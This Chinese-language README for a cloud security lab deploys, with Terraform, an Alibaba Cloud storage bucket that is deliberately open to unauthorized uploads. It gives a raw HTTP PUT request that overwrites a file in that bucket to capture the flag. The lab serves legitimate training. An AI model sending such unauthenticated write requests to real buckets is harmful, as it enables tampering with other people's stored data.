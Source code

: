 # 描述

[English](./README.md) | 中文

这是一个帮你快速构建存储桶未授权上传场景的脚本，玩的愉快。

## 部署环境

### Git clone

```bash
cd /TerraformGoat/aliyun/object_storage_service/unrestricted_file_upload/ 
```

```bash
terraform init
```

![image-20220425192835507](../../../images/image-20220425192835507.png)

```bash
terraform apply
```

![image-20220425192251992](../../../images/image-20220425192251992.png)

如果确认没有问题，输入yes等待构建即可

![image-20220425192314435](../../../images/image-20220425192314435.png)

## Get Flag

访问/hx.png获取图片

![image-20220425192605952](../../../images/image-20220425192605952.png)

使用PUT方法即可覆盖这张图片

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

![image-20220425192622938](../../../images/image-20220425192622938.png)

随后在使用GET方法获取我们覆盖的内容

![image-20220425192649111](../../../images/image-20220425192649111.png)

## 销毁挑战

```bash
terraform destroy
```

![image-20220425192403147](../../../images/image-20220425192403147.png)
